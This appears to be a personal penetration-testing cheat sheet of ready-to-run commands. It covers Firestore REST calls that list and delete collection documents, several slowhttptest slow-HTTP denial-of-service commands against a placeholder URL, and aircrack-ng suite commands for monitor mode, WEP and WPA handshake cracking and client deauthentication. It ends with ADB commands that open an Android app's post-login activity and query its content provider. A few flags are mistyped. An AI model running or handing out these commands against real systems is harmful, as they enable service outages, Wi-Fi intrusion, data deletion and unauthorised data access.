 curl -X GET "https://firestore.googleapis.com/v1/projects/YOUR_PROJECT_ID/databases/(default)/documents/<Koleksiyon Adı>";

curl -X DELETE "https://firestore.googleapis.com/v1/projects/YOUR_PROJECT_ID/databases/(default)/documents/<Koleksiyon Adı>/<ID>";

# DOS Attack #

slowhttptest -c 1000 -H -r 200 -c 400 -i 10 -t POST -l 3600 -o ~/Desktop/slow-test1 -g -u https://pentesturl.xyz

slowhttptest -c 3000 -X -r 200 -w 4096 -y 8192 -i 10 -t POST -n 3 -z 32 -x 24 -k 2 -p 2 -l 3600 -o ~/Desktop/slow-test2 -g -u https://pentesturl.xyz

slowhttptest -c 1000 -X -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 o- ~/Desktop/slow-test3 -g -u https://pentesturl.xyz

slowhttptest -c 1000 -X -r 200 -w 20 -y 40 -n 5 -z 32 -k 3 o- ~/Desktop/slow-test4 -g -u https://pentesturl.xyz

slowhttptest -c 2000 -X -r 200 -w 2048 -y 4096 -n 3 -z 32 -k 2 -p 3 -l 3600 -o ~/Desktop/slow-test5 -g -u https://pentesturl.xyz

slowhttptest -c 3000 -B -r 300 -i 100  -s 8192 -t fakeverb -p 3 -x 20 -o ~/Desktop/slow-test6 -g -u https://pentesturl.xyz

# Airmon-NG #

airmon-ng start wlan0

airmon-ng check kill

airodump-ng wlan0mon

airodump-ng --channel 8 --bssid 11:22:33:44:55:66 --write airodump wlan0mon 

aircrack-ng wepcrack01.cap

aircrack-ng handshake-file-01.cap -w testwordlist

aireplay-ng --deauth 5 -a 11:22:33:44:55:66 wlan0mon

aireplay-ng --deauth 5 -a 11:22:33:44:55:66 -c 55:44:88:66:11:22 wlan0mon

iwconfig

ifconfig wlan0 down

ifconfig wlan0 mode monitor

ifconfig wlan0 up

# ADB #

am start -n com.android.asdad/.PostLogin

content query --uri content://com.android.asdasd.TrackUserContentProvider/trackusers
